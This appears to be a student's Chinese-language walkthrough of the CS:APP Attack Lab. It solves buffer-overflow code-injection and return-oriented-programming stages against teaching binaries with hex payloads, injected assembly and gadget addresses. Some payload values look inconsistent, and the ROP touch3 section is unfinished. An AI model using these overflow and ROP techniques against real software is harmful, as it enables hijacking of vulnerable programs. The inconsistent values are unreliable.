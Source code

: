 # Attack Lab

> 🥝 第三章：程序的机器级表示

## Part I: Code Injection Attacks

🌼 第一部分没有栈随机化和栈only-read限制

🍌 需要输入字符，字符是实际注入代码的位表示

🍎 在进行执行时加上`-qi` ， 跳过联网，进行本地执行



## touch1

> 在getbuf函数调用后，执行touch1函数，而不是返回test

1. getbuf读入字符时， 没对长度做限制，意味着可以读入超过bufSize的字符

2. 将test函数call getbuf函数时在栈上压入的ret地址改为touch1函数的地址（0x4017c0）

3. 位表示 `bit1`

   ```text
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   c0 17 40 00 00 00 00 00
   ```

4. 通过hex2raw将bit转化为字符  `./hex2raw < bit1 > str1` 

5.  执行  `./ctarget -qi str1`

## touch2

> 相对于touch1， 需要传递给touch2参数， 参数为cookie的值

1.  🍈需要注入代码，让cookie值传递给%rdi寄存器

2.  🍀inject code `touch2_inject_code.s`

   ```assembly
   movq $0x59b997fa, %rdi # 传递cookie
   pushq $0x4017ec        # 入栈touch2函数的返回地址 
   ret					   # 执行touch2	
   ```

3. 🍂 编译inject code，并且查看对应的bit表示 

   ```
   gcc -c touch2_inject_code.s
   objdum -d touch2_inject_code.o
   ```

   ```
   # 编译后表示为
   
   0000000000000000 <.text>:
      0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
      7:   68 ec 17 40 00          push   $0x4017ec
      c:   c3                      ret 
   ```

4.  🍃将test函数的返回地址改为inject code的地址

5.  🌿inject code的地址为进入getbuf后分配栈空间后的位置 （0x5561dc78）

6.  🏵️ 位表示 `bit2`

   ```
   48 c7 c7 fa 97 b9 59 68  # inject code 
   ec 17 40 00 c3 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   78 dc 61 55 00 00 00 00 # inject code rsp position
   
   ```

7. 将位表示转化为字符 `./hex2raw < bit2 > str2` 

8. 执行  `./ctarget -qi str2`


## touch3

1.  🍈 相对于touch2，传递参数为字符指针，指向cookie存放的位置

2.  避免hexmatch函数的调用栈覆盖cookie数组的数据

3.  字符数组存放在ret的+8位置（执行完touch3后直接退出程序，不会影响其他）

4.  inject code 

   ```assembly
   movq $0x5561dca8, %rdi # 字符数组位置，相当于touch2的栈顶位置加去0x30
   push $0x4018fa   # touch3函数位置
   ret 
   ```

5. 🏵️ 位表示 `bit3`

   ```
   48 c7 c7 a8 dc 61 55 68
   fa 18 40 00 c3 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   78 dc 61 55 00 00 00 00
   35 39 62 39 39 37 66 61
   ```

6. 将位表示转化为字符 `./hex2raw < bit3 > str3` 

7. 执行  `./ctarget -qi str3`



## Part II: Return-Oriented Programming

> 🌿 具有栈随机化和栈只读限制
>
> ☘️ 只能通过程序已有代码来进行代码攻击
>
> 🍀 不断ret跳转执行代码片段

### touch2

> 和partⅠ中touch2实现的效果一样



 1. 🍉test的ret地址改为第一段gadget代码地址

 2. 🍊test的ret地址+8位置为 cookie的值

 3. 🍋test的ret地址+16位置为第二段gadget代码的值

 4. 🍌test的ret地址+24位置为touch2函数的地址

 5. 🍍gadget代码，根据已有代码可以灵活实现

    ```assembly
    popq %rax  
    ret
    
    movq %rax %rdi
    ret
    ```

 6. 🍎找出gadget代码位置

    ```assembly
    # bit表示 58 c3
    popq %rax  
    ret
    # bit表示  48 89 c7 c3
    movq %rax %rdi
    ret
    ```

 7. 🍏位表示

    ```
    39 39 39 39 39 39 39 39
    39 39 39 39 39 39 39 39
    39 39 39 39 39 39 39 39
    39 39 39 39 39 39 39 39
    39 39 39 39 39 39 39 39
    cc 19 40 00 00 00 00 00 # 第一段gadget
    fa 97 b9 59 00 00 00 00 # cookie
    cc 19 10 00 00 00 00 00 # 第二段gadget
    ec 17 40 00 00 00 00 00 # touch2
    ```

 8. 🍐将位表示转化为字符 `./hex2raw < bit4 > str4` 

9. 🍓执行  `./rtarget -qi str4`

### touch3

> 暂无精力，有机会再来

------



[^李鹏飞]: 第一版本，完成于2024/04/06, 缺少每个touch的栈图表示